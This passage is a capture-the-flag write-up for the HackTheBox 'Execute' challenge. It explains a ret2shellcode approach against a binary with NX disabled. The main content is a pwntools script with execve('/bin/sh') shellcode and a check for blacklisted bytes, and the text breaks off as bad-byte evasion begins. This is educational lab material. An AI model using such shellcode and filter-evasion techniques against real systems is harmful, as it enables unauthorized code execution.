# Execute
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a76f9eac-e18c-4903-866d-87de83421845)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Input bug which leads to direct code execution.
3. Implement ret2shellcode attack.
4. Craft custom shellcode to bypass bad bytes.

## DESCRIPTION:

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f25e6b28-c6a8-437f-9eeb-a910233a9085)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2419960c-7a0c-408f-b15a-22e30567fc39)


2. Interesting! NX is disabled here. Hence it should be easier for us to gain RCE.
3. Upon reviewing the source code, our objective is very straightforward.
4. There is no buffer overflow, we just need to send our shellcode and it shall executed onto the stack.
5. BUT, the problem is there are several filters to our shellcode, which require us to craft our own shellcode.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/30e29a82-0d47-489d-82ab-a37bc286363b)

6. The easiest way to check which bytes is filtered, simply craft basic shellcode then compare which byte match the pattern.

> SCRIPT

```py
from pwn import *

exe = './execute'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = process(exe)

blacklist = b"\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67"
        
shellcode = '''    
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall
'''

sc = asm(shellcode)
for byte in sc:
    if byte in blacklist:
        print(f'BAD BYTE --> 0x{byte:02x}')
        print(f'ASCII --> {chr(byte)}')

sh.interactive()
```

#### NOTES:

```
0x68732f6e69622f is a hex representation of strings "/bin/sh".

>>> from pwn import *
>>> print(p64(0x68732f6e69622f))
b'/bin/sh\x00'
>>> 
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fed4fc6d-add2-4362-877b-0674e64ed767)


7. Got several bad bytes and it seems filtered for `/bin/sh` strings, NULL byte, and 59 or execve call.
8. Let's start by manipulate the 59 value. Actually we can just use 0x3a rather than 0x3b then add 1 byte to al.
